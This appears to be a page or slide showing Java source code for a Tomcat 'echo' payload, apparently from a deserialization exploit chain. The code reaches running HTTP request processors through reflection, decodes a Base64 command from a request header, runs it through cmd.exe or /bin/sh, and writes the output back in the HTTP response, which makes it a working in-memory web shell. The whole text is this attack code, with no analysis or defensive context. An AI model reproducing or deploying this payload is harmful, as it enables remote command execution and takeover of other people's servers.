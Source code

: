 ````md magic-move
```java
public TomcatEcho2Bytecode() {
    try {
        boolean done = false;
        Thread[] threads = (Thread[]) getFV(Thread.currentThread().getThreadGroup(), "threads");

        for (int i = 0; i < threads.length; ++i) {
            Thread thread = threads[i];
            if (thread != null) {
                String threadName = thread.getName();
                if (!threadName.contains("exec") && threadName.contains("http")) {
                    Object target = getFV(thread, "target");
                    if (target instanceof Runnable) {
                        try {
                            target = getFV(getFV(getFV(target, "this$0"), "handler"), "global");
                        } catch (Exception e) {
                            continue;
                        }

                        List processors = (List) getFV(target, "processors");

                        for (int j = 0; j < processors.size(); ++j) {
                            Object processor = processors.get(j);
                            Object req = getFV(processor, "req");
                            Object response = req.getClass().getMethod("getResponse").invoke(req);

                            try {
                                String data = (String) req.getClass().getMethod("getHeader", String.class)
                                    .invoke(req, new String(header));
                                if (data != null && !data.isEmpty()) {
                                    String c = new String(Base64.getDecoder().decode(data));
                                    String[] cmd = System.getProperty("os.name").toLowerCase().contains("window") 
                                        ? new String[]{"cmd.exe", "/c", c} 
                                        : new String[]{"/bin/sh", "-c", c};
                                    writeBody(response, 
                                        ((new Scanner((new ProcessBuilder(cmd)).start().getInputStream()))
                                            .useDelimiter("\\A").next() + "=====").getBytes());
                                    done = true;
                                }

                                if (done) {
                                    break;
                                }
                            } catch (Exception var13) {
                                writeBody(response, var13.getMessage().getBytes());
                            }
                        }

                        if (done) {
                            break;
                        }
                    }
                }
            }
        }
    } catch (Exception ignored) {
    }
}
```
```java
````